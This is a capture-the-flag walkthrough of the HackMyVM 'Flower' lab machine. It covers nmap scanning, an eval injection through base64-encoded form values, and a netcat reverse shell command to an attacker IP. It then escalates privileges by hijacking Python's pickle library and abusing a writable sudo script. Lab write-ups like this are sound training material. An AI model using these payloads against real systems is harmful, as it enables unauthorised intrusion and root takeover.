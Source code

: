 # HackMyVM-Flower

## NMAP

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-12 02:02 PKT
Nmap scan report for dominator.hmv (192.168.1.6)
Host is up (0.000079s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:8D:A3:F6 (Oracle VirtualBox virtual NIC)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```
## PORT 80

<img src="https://imgur.com/j2fvA9B.png"/>

On running gobuster it seems that there is only an `index.php` 

<img src="https://imgur.com/Yy5KCwp.png"/>

Looking at the source code of  web page we see that value is actually a base64 encoded text 

<img src="https://imgur.com/aw9Zpp7.png"/>

These value are being sent to the sever and the server might be using `eval` so there is an exploit to it by ecnoding the exploit as base64 and replacing it with the actual value.

<img src="https://imgur.com/NjoGb9z.png"/>

<img src="https://imgur.com/1m3en2N.png"/>

<img src="https://imgur.com/GSTIEYH.png"/>

To get a reverse shell encode `system('nc 192.168.1.8 2222 -e /bin/bash') ` to base64 and do the exact same thing

<img src="https://imgur.com/VDkf22z.png"/>

<img src="https://imgur.com/g146zXb.png"/>

Now we know `diary.py` can be ran as user `rose` and we know that it is using python library named `pickle`

<img src="https://imgur.com/UCvsGdJ.png"/>

We can create a malicious library by the name of pickle.py and place it with diary.py because python searches for library in which it is being executed.

<img src="https://imgur.com/vb28U6l.png"/>

Doing a `sudo -l` again with rose

<img src="https://imgur.com/EdfbRYb.png"/>

<img src="https://imgur.com/kWbNTur.png"/>

As `.plantbook` is writeable add `/bin/bash` to the file and then run as root

<img src="https://imgur.com/AYNV9ve.png"/>